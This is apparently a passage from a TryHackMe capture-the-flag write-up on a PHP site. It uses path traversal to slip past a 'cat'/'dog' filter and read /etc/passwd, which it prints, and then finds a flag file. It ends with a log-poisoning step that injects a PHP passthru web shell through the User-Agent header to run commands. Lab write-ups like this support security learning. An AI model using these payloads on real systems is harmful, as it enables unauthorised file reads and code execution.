 From this breakdown we can see that both `view` and `ext` have been created as variables. `ext` is set as `.php` which we know is appended to the end. `view` is sanitised to check if either `cat` or `dog` is used in the URI.
After better understanding the PHP script that's used on the homepage I attempt to mess with the variables and see what happens.
```
http://<TargetIP>/index.php?view=cat/../dog$ext=.php
http://<TargetIP>/index.php?view=cat/../dog.php$ext=
```
These URLs successfully load images to the page letting us know how we can bypass the sanitsation. I put this to the test by aiming straight for `/etc/passwd`.
```
http://<TargetIP>/index.php?view=cat/../../../../etc/passwd&ext=
```
Success. The file is loaded into the page and shown to us.
```
!root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin b
in:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin s
ync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats
Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
We can observe that no usernames of interest are returned to us and that most of these system accounts don't allow logins (`/nologin`). The `x`'s indicate that an encrypted password is stored in the `/etc/shadow` file ([source](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/)). Using the sanitsation bypass I continue to enumerate files of interest. 
```bash
ls /var/www
  flag2_QMW7JvaY2LvK.txt
cat flag2_QMW7JvaY2LvK.txt
  THM{***}
```
The second flag was found as I walked the file path.

Eventually, I found the Apache server's log file `/var/log/apache2/access.log`. Here I could see the GET requests that were being made to the server. It was at this point I had the idea to use the log file to gain a foothold into the server.

Inspired by how I had previously understood about the late 2021 log4j vulnerability, I would attempt to remotely execute code on the server by poisoning the logs. I started to test for methods I would do this by using the `Burpsuite` repeater. While the same methods could be achieved with `Curl`, I didn't have a lot of practice to do this via trial and error. A brief google search on log poisoning suggested injecting code into the user-agent field as this was a section that wouldn't affect the URL/URI format but also be recorded in the log file by default. I found a PHP based script to insert into which uses the same format as the original script, allowing us to create a new variable to define in the URI. I first tested this method using `ls`.
```
Host: <TargetIP>
User-Agent: Mozilla/5.0 <?php passthru($_GET['cmd']); ?> Gecko/20100101 Firefox/69.0
  	/index.php?view=dog/../../../../var/log/apache2/access.log&cmd=ls&ext= HTTP/1.1" 408 0 "-" "Mozilla/5.0
```